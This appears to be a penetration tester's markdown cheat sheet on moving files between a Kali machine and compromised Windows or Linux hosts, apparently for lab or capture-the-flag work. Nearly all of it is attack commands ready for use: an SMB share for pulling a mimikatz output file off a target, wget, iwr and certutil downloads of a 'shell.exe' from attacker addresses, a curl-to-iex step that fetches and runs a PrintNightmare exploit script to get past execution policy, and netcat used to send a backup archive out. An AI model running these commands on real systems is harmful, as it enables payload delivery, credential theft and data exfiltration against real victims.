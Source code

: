 from windows back to my kali linux    
on kali run    
```    
smbserver.py smb share/ -smb2support    
```    
on windows, run:    
```    
net use \\192.168.49.109\smb    
```    
then copy the file    
```    
copy .\mimi_allyouneed101.txt \\192.168.49.109\smb\mimi_allyouneed101.txt    
```    
    
wget    
```    
wget http://10.10.14.169/shell.exe -o s.exe    
```    
    
iwr    
```    
iwr -uri http://10.10.14.169/shell.exe -o s.exe    
```    
    
```    
certutil -split -urlcache -f http://192.168.49.109/chkaccess.exe C:\\Users\\rudi.davis\\Desktop\\chkaccess.exe    
```    
    
if wget doesn't work because IE engine isn't availablem, use `curl` with parameter:    
```    
curl 10.10.14.6/CVE-2021-1675.ps1 -UseBasicParsing | iex    
```    
- `-UseBasicParsing` allows the file to come back without IE    
- `iex` imports (or runs) the script     
	- useful if can't import/run a script when transferred via other means because of execution policy and `powershell -ep bypass` doesn't work    
    
### NC from remote to host    
```    
nc -lnvp 443 > 16162020_backup.zip    
```    
- run on kali    
```    
md5sum 16162020_backup.zip    
```    
- checksum on remote machine before transferring    
```    
cat 16162020_backup.zip | nc 10.10.14.191 443    
```    
- on remote machine to initiate the transfer    
```    
md5sum 16162020_backup.zip    
```    
- checksum on kali to make sure matches    